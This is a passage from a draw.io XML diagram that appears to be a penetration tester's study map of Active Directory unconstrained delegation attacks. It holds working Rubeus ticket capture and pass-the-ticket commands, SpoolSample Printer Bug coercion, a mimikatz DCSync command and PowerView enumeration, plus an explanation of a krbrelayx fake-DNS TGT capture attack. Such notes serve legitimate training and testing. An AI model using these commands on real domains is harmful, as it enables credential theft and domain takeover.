        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-139" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-132" target="zsb6fFKO1eEHvJ3RfYXY-138" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-132" value="Monitor Stored Tickets" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="1130" y="2923" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-134" value="&lt;div&gt;Rubeus&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="1250" y="3033" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-135" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;PS C:\Tools&amp;gt; .\Rubeus.exe monitor /interval:5 /nowrap&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1250" y="3093" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-137" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;b&gt;If we are able to compromise a server that has unconstrained delegation enabled, and a Domain Administrator subsequently logs in, we will be able to extract their TGT&lt;/b&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1250" y="3143" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-142" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-138" target="zsb6fFKO1eEHvJ3RfYXY-140" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-146" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-138" target="zsb6fFKO1eEHvJ3RfYXY-145" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-138" value="&lt;div&gt;Group Enumeration&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="1800" y="2923" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-140" value="&lt;div&gt;Powerview&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="1900" y="3033" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-141" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Import-Module .\PowerView.ps1&lt;/div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Get-DomainGroup -MemberIdentity sarah.lafferty&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1900" y="3093" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-143" value="&lt;b&gt;The /ptt option/flag is used to pass the received ticket into memory so that it can be used for future requests&lt;/b&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1900" y="3143" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-144" value="&lt;div&gt;&lt;b&gt;Note: We can also use the command net view \\COMPUTERNAME to identify available shares.&lt;/b&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1900" y="3193" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-149" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-145" target="zsb6fFKO1eEHvJ3RfYXY-147" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-154" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-145" target="zsb6fFKO1eEHvJ3RfYXY-153" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-145" value="&lt;div&gt;Using the Ticket to Request another Ticket&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="2430" y="2923" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-147" value="&lt;div&gt;Rubeus&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="2520" y="3033" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-151" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-148" target="zsb6fFKO1eEHvJ3RfYXY-150" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-148" value="&lt;div&gt;&lt;div&gt;PS C:\Tools&amp;gt; .\Rubeus.exe asktgs /ticket:&amp;lt;ticket&amp;gt; /service:&amp;lt;service&amp;gt;/&amp;lt;target.fqdn&amp;gt; /ptt&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="2520" y="3093" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-150" value="&lt;div&gt;&lt;b&gt;In case the above command doesn&#39;t work, we can also use the renew action to get a brand new TGT instead of a TGS ticket:&lt;/b&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="2520" y="3193" width="390" height="47" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-152" value="&lt;div&gt;PS C:\Tools&amp;gt; .\Rubeus.exe renew /ticket:doIFmTCCBZWgAwIBBaE&amp;lt;SNIP&amp;gt;LkxPQ0FM /ptt&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="2520" y="3240" width="390" height="47" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-157" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-153" target="zsb6fFKO1eEHvJ3RfYXY-155" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="3210" y="2953" />
              <mxPoint x="3210" y="3010" />
              <mxPoint x="3150" y="3010" />
              <mxPoint x="3150" y="3063" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-169" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-153" target="zsb6fFKO1eEHvJ3RfYXY-168" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-153" value="&lt;div&gt;Using the Ticket&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="3060" y="2923" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-155" value="&lt;div&gt;From console (CMD/PS)&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="3180" y="3033" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-156" value="&lt;div&gt;PS C:\Tools&amp;gt; dir \\&amp;lt;target&amp;gt;\c$&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3180" y="3093" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-166" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.75;entryDx=0;entryDy=0;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-158" target="zsb6fFKO1eEHvJ3RfYXY-132" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="1270" y="3350" />
              <mxPoint x="1270" y="3240" />
              <mxPoint x="1110" y="3240" />
              <mxPoint x="1110" y="2968" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-158" value="&lt;div&gt;Leveraging the Printer Bug&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="1130" y="3320" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-165" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-160" target="zsb6fFKO1eEHvJ3RfYXY-161" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-160" value="&lt;b&gt;The Printer Bug is a flaw in the MS-RPRN protocol (Print System Remote Protocol). This protocol defines the communication of print job processing and print system management between a client and a print server. To leverage this flaw, any domain user can connect to the spools named pipe with the RpcOpenPrinter method and use the RpcRemoteFindFirstPrinterChangeNotificationEx method, and force the server to authenticate to any host provided by the client over SMB.&lt;/b&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1130" y="3380" width="390" height="130" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-161" value="&lt;div&gt;Force auth using SpoolSample.exe&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="1400" y="3560" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-162" value="&lt;div&gt;&lt;div&gt;PS C:\Tools&amp;gt; .\SpoolSample.exe &amp;lt;from-target.fqdn&amp;gt; &amp;lt;to-target.fqdn&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;&amp;gt;&lt;/span&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1400" y="3620" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-164" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;b&gt;The positional arguments are from - to&lt;/b&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1400" y="3670" width="390" height="20" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-171" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-168" target="zsb6fFKO1eEHvJ3RfYXY-170" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-181" value="YES" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="zsb6fFKO1eEHvJ3RfYXY-171" vertex="1" connectable="0">
          <mxGeometry x="-0.497" y="3" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-183" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-168" target="zsb6fFKO1eEHvJ3RfYXY-182" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-184" value="NO" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="zsb6fFKO1eEHvJ3RfYXY-183" vertex="1" connectable="0">
          <mxGeometry x="-0.518" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-168" value="TGT of DC?" style="rhombus;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="3080" y="3200" width="80" height="80" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-174" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-170" target="zsb6fFKO1eEHvJ3RfYXY-172" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-176" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-170" target="zsb6fFKO1eEHvJ3RfYXY-175" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-85" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.25;exitDx=0;exitDy=0;entryX=1;entryY=0;entryDx=0;entryDy=0;jumpStyle=arc;strokeColor=#FF8000;" edge="1" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-170" target="-mCO11fVwZeK89IVwwup-83">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="3630" y="3225" />
              <mxPoint x="3630" y="2880" />
              <mxPoint x="250" y="2880" />
              <mxPoint x="250" y="340" />
              <mxPoint x="200" y="340" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-86" value="if krbtgt hash" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="-mCO11fVwZeK89IVwwup-85">
          <mxGeometry x="-0.97" y="2" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-170" value="&lt;div&gt;Performing DCSync&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="3280" y="3210" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-172" value="&lt;div&gt;Mimikatz&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="3370" y="3308" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-173" value="&lt;div&gt;C:\Tools&amp;gt; mimikatz.exe&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;div&gt;mimikatz # lsadump::dcsync /user:sarah.lafferty&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3370" y="3368" width="390" height="62" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-179" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-175" target="zsb6fFKO1eEHvJ3RfYXY-177" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-180" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.75;entryDx=0;entryDy=0;jumpStyle=arc;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-175" target="zsb6fFKO1eEHvJ3RfYXY-153" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="3980" y="3240" />
              <mxPoint x="3980" y="3170" />
              <mxPoint x="3040" y="3170" />
              <mxPoint x="3040" y="2968" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-175" value="&lt;div&gt;Request a Ticket as user&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="3840" y="3210" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-177" value="&lt;div&gt;Rubeus&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="3930" y="3308" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-178" value="&lt;div&gt;PS C:\Tools&amp;gt; .\Rubeus.exe asktgt /rc4:&amp;lt;Hash NTLM&amp;gt; /user:sarah.lafferty /ptt&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3930" y="3368" width="390" height="62" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-190" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.25;entryDx=0;entryDy=0;jumpStyle=arc;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-182" target="zsb6fFKO1eEHvJ3RfYXY-153" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="3000" y="3590" />
              <mxPoint x="3000" y="2938" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-182" value="&lt;div&gt;S4U2self for Non-Domain Controllers&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="3060" y="3560" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-188" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-185" target="zsb6fFKO1eEHvJ3RfYXY-186" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-185" value="&lt;b&gt;With the ticket captured from DC using Rubeus monitor and SpoolSample we can use Rubeus s4u /self to forge a service ticket for any service. Let&#39;s create a ticket to connect through SMB using the CIFS service. We will need to use Rubeus s4u /self, set the alternative service to CIFS, and use the ticket we have&lt;/b&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3060" y="3620" width="390" height="100" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-186" value="&lt;div&gt;Rubeus&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="3340" y="3770" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-187" value="&lt;div&gt;.\Rubeus.exe s4u /self /nowrap /impersonateuser:&amp;lt;username&amp;gt; /altservice:&amp;lt;service&amp;gt;/&amp;lt;fqdn&amp;gt; /ptt /ticket:&amp;lt;kirbi-ticket&amp;gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3340" y="3830" width="390" height="62" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-189" value="&lt;div&gt;&lt;b&gt;This command allows us to impersonate Administrator and request a service ticket for the CIFS service, enabling SMB connections as the impersonated user. This method is particularly useful for scenarios where we have a ticket from a computer that is not a domain controller.&lt;/b&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3340" y="3892" width="390" height="88" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-3" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-191" target="VL_DeuJodb9uclPqMyuw-2" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-191" value="USERS" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="929" y="3760" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-1" value="Users in Active Directory can also be configured for unconstrained delegation, and it&#39;s quite different to exploit." style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="929" y="3820" width="121" height="120" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-6" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-2" target="VL_DeuJodb9uclPqMyuw-4" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-9" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FF0000;" parent="1" source="VL_DeuJodb9uclPqMyuw-2" target="VL_DeuJodb9uclPqMyuw-8" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-2" value="&lt;div&gt;Enumeration&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="1250" y="3760" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-4" value="&lt;div&gt;PowerView Enumeration Unconstrained Delegation&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="1330" y="3881" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-5" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Import-Module .\PowerView.ps1&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Get-DomainUser -LDAPFilter &quot;(userAccountControl:1.2.840.114.1.4.803:=524288)&quot;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1330" y="3941" width="390" height="69" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-7" value="&lt;div&gt;&lt;i&gt;If we somehow managed to compromise an account, we also need to be able to update its SPN list, so we need an account with GenericWrite privileges on the compromised account.&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;&lt;br&gt;&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;We can leverage this unconstrained delegation privilege to become a domain administrator if these conditions are met.&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;&lt;br&gt;&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;This attack aims to create a DNS record that will point to our attack machine. This DNS record will be a fake computer in the Active Directory environment. Once this DNS record is registered, we will add the SPN CIFS/our_dns_record to the account we compromised, which is in an unconstrained delegation. So, if a victim tries to connect via SMB to our fake machine, it will ship a copy of its TGT in its TGS ticket since it will ask for a ticket for CIFS/our_registration_dns. This TGS ticket will be sent to the IP address we chose when registering the DNS record, i.e., our attack machine. All we have to do then is extract the TGT and use it.&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;&lt;br&gt;&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;We will use Dirkjanm&#39;s krbrelayx tools suite for this attack.&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;&lt;br&gt;&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;First, we&#39;ll use dnstool.py to add a fake DNS record&amp;nbsp; pointing to our attack host using any valid domain account.&lt;/i&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1330" y="4010" width="390" height="319" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-12" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-8" target="VL_DeuJodb9uclPqMyuw-10" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
